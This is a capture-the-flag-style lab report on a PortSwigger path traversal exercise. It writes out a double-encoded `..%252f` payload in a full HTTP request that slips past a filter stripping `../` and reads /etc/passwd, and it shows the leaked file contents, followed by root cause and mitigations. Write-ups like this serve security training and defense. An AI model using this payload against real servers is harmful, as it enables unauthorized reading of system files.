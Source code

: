 # Lab Report: File Path Traversal (Traversal sequences stripped with superfluous URL-decode)

## Overview
This lab demonstrates a **File Path Traversal** vulnerability where the application attempts to strip traversal sequences but fails due to improper handling of multiple decoding layers. The server-side filter removes literal `../` sequences, but if the payload is double-encoded (or encoded in a way the filter does not expect), the filter may remove only one layer while the server decodes again before file access.

The goal of this lab was to retrieve the contents of the `/etc/passwd` file.

---

## Steps to Exploitation

### 1. Initial Request
The application used a request parameter `filename` to fetch image files. Literal traversal sequences like `../../../../etc/passwd` were stripped or blocked by the filter.

### 2. Payload
A double-encoded traversal payload was used to bypass the filter by leveraging superfluous URL-decode behavior on the server:

```
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
Host: <LAB-ID>.web-security-academy.net
Cookie: session=<valid-session-cookie>
User-Agent: Mozilla/5.0
Accept: image/avif,image/webp,*/*
```

**Explanation:**
- The filter strips literal `../` sequences but does not decode `%252f` (which is the encoding of `%2f`) before filtering.
- When the server decodes the parameter one or more times to resolve the path, `%252f` becomes `%2f`, and then `/`, resulting in `../../../etc/passwd`. This allows the file to be read.

### 3. Server Response
The server returned the contents of `/etc/passwd`, proving successful exploitation:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

---

## Evidence

### Exploit Request and Response
![Exploit Request and Response](/images/superfluous%20URL-decode1.jpg)

### Lab Solved Confirmation
![Lab Solved](/images/superfluous%20URL-decode1%20lab%20solved.jpg)

---

## Result
- Retrieved sensitive system file: `/etc/passwd`  
- Confirmed path traversal vulnerability by bypassing stripping with superfluous URL-decode  
- Lab status:  
  ✅ *"Congratulations, you solved the lab!"*

---

## Root Cause
- The application attempted to remove traversal sequences but did not canonicalize or fully decode the input prior to filtering.  
- Multiple decoding steps on the server converted encoded sequences into traversal sequences after the filter had already run.

---

## Mitigation
1. **Canonicalize input** — Decode and normalize input fully before applying any filtering, then validate the canonical path.  
2. **Use Whitelisting** — Restrict file access to a specific directory and a whitelist of filenames.  
3. **Reject encoded traversal** — After canonicalization, reject paths containing traversal components.  
4. **Avoid direct file paths** — Use indirect references (IDs or mappings) instead of exposing file paths to users.  
5. **Use secure APIs** — Use APIs that perform proper path normalization and avoid manual string-based filtering.

---

## Skills Demonstrated
- Testing for path traversal vulnerabilities  
- Bypassing naive filters using double-encoding (`%252f`)  
- Retrieving sensitive files from the server (`/etc/passwd`)  
- Documenting exploitation steps and capturing proof using Burp Suite

---

## References
- PortSwigger Academy: File path traversal, traversal sequences stripped with superfluous URL-decode  
- OWASP: Path Traversal

--- 

*End of report.*